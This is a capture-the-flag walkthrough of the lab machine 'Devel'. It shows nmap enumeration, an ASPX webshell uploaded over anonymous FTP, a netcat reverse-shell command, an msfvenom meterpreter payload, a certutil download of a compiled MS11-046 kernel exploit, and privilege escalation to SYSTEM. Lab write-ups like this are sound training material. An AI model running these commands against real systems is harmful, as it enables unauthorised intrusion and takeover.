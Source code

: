 ```yaml
---
description: Work In Progress...
---
```


# Devel

## Overview

## Enumeration

As always we start with an Nmap scan. This is the one I ran

```bash
 sudo nmap -sV -sC 10.129.203.118 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 16:45 EDT
Nmap scan report for 10.129.203.118
Host is up (0.034s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.00 seconds
```

The scan reveals we have two services open: `Microsoft FTP` on `port 21` and `Microsoft IIS` web server on `port 80`.

### FTP

What's particularly interesting is that anonymous login is allowed on port 21 so let's explore that.

We'll make sure that anonymous login does work, which indeed it does.

![](<../../../../.gitbook/assets/image (11) (2).png>)

However, there isn't anything useful for us here.

### IIS

We see what looks to be the default landing page for IIS

![](<../../../../.gitbook/assets/image (40) (1).png>)

Running a dirsearch on the website also did not prove to be useful.

### Curl

I ran a curl command with `-I` to get only the document info

```bash
curl -I http://10.129.203.118/
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Wed, 23 Mar 2022 21:06:06 GMT
```

Seeing that the server is running ASP.NET and I have access to FTP, I can probably upload a webshell

## Foothold w/o Metasploit

### Webshell

I decided to go with the webshell from SecLists

![](<../../../../.gitbook/assets/image (7) (2).png>)

Now we'll upload it over ftp:

![](<../../../../.gitbook/assets/image (46) (2).png>)

We can access our webshell by visiting `10.129.203.118/cmd.aspx`

![](<../../../../.gitbook/assets/image (25) (1).png>)

Here's what returns when entering `whoami`

![](<../../../../.gitbook/assets/image (50).png>)

### Reverse shell

I'll be getting a shell with `nc.exe`

I use impacket-smbserver to host a windows netcat executable to then execute a connection to my kali machine

![](<../../../../.gitbook/assets/image (2) (1) (2).png>)

I also start a nc listener on my kali machine to catch a shell

![](<../../../../.gitbook/assets/image (2) (1) (1).png>)

Entering the following command into the webshell:

```
\\10.10.14.3\share\nc.exe -e cmd.exe 10.10.14.3 443
```

![](<../../../../.gitbook/assets/image (3) (1).png>)

And I get a shell!

![](<../../../../.gitbook/assets/image (1) (1) (1).png>)

## Foothold w/ Metasploit

I'll create the payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=443 -f aspx > meterpreter_rev_443.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2873 bytes
```

Put it on the FTP server

```
ftp> put meterpreter_rev_443.aspx
local: meterpreter_rev_443.aspx remote: meterpreter_rev_443.aspx
229 Entering Extended Passive Mode (|||49186|)
125 Data connection already open; Transfer starting.
100% |**************************************|  2910       34.68 MiB/s    --:-- ETA
226 Transfer complete.
2910 bytes sent in 00:00 (100.65 KiB/s)
```

Use the Metasploit module `exploit/multi/handler`

![](<../../../../.gitbook/assets/image (16) (2).png>)

Visit the page&#x20;

```
http://10.129.203.118/meterpreter_rev_443.aspx
```

And catch a shell!

![](<../../../../.gitbook/assets/image (72).png>)

## Privilege Escalation

Running systeminfo in the shell shows us some good information

![](<../../../../.gitbook/assets/image (44).png>)

In particular, I'm interested in the OS Version, so I look up priv esc for this build and find a nice exploit to use.

{% embed url="https://www.exploit-db.com/exploits/40564" %}

Per the description:

> **Vulnerability description:**
>
> The Ancillary Function Driver (AFD) supports Windows sockets applications and is contained in the afd.sys file.&#x20;
>
> The afd.sys driver runs in kernel mode and manages the Winsock TCP/IP communications protocol.&#x20;
>
> An elevation of privilege vulnerability exists where the AFD improperly validates input passed from user mode to the kernel.&#x20;
>
> An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability.&#x20;
>
> An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges)

We'll compile the code as suggested by the exploit

![](<../../../../.gitbook/assets/image (52).png>)

```
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

Since we don't have full access to any user, we'll create a temp directory inside the Public folder and use something like certutil to upload the exploit and use a python http server to aid in the transfer

```
certutil -urlcache -f http://10.10.14.13/MS11-046.exe MS11-046.exe
```

![](<../../../../.gitbook/assets/image (8) (1) (2).png>)

![](<../../../../.gitbook/assets/image (70).png>)

Now we will run the exploit which should give us NT Auth\System level privileges

![](<../../../../.gitbook/assets/image (45).png>)

With our exploit executing successfully, we'll grab both the user and root flags!

![](<../../../../.gitbook/assets/image (56).png>)

![](<../../../../.gitbook/assets/image (23) (1).png>)
